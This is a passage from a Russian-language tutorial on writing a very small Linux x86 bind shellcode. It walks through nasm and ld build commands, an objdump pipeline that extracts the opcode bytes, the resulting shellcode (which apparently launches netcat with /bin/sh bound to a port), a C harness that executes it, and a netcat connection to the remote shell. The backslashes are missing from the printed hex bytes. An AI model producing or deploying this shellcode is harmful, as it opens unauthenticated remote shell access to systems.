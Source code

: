 Компилируем:

```
$ nasm -f elf32 super_small_bind_shell_2.nasm
```

Линкуем:

```
$ ld -m elf_i386 super_small_bind_shell_2.o -o super_small_bind_shell_2
```

Извлекаем shell-код:

```
$ objdump -d ./super_small_bind_shell_2|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr 't' ' '|sed 's/ $//g'|sed 's/ /x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

x31xd2x52x68x2fx2fx73x68x68x2fx62x69x6ex68x2dx6cx65x2fx89xe7x52
x68x2fx2fx6ex63x68x2fx62x69x6ex89xe3x52x57x53x89xe1x31xc0xb0x0b
xcdx80
```

Проверяем:

```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] =
"x31xd2x52x68x2fx2fx73x68x68x2fx62x69x6ex68x2dx6cx65x2fx89xe7x52"
"x68x2fx2fx6ex63x68x2fx62x69x6ex89xe3x52x57x53x89xe1x31xc0xb0x0b"
"xcdx80";
main()
{
    printf("Shellcode Length: %dn",strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

```
$ gcc -m32 -fno-stack-protector -z execstack checker2.c -o checker2
$ ./checker2
Shellcode Length: 44
```

А теперь попробуем подключиться и получить удаленный шелл-доступ. С помощью Nmap узнаем, на каком порте висит наш шелл, после чего успешно подключаемся к нему все тем же `netcat`:

![[Pasted image 20230618074433.png]]

Bingo! Цель достигнута: мы написали один из самых компактных [Linux x86 bind shellcode](https://www.exploit-db.com/exploits/41631/). Как видишь, ничего сложного ;).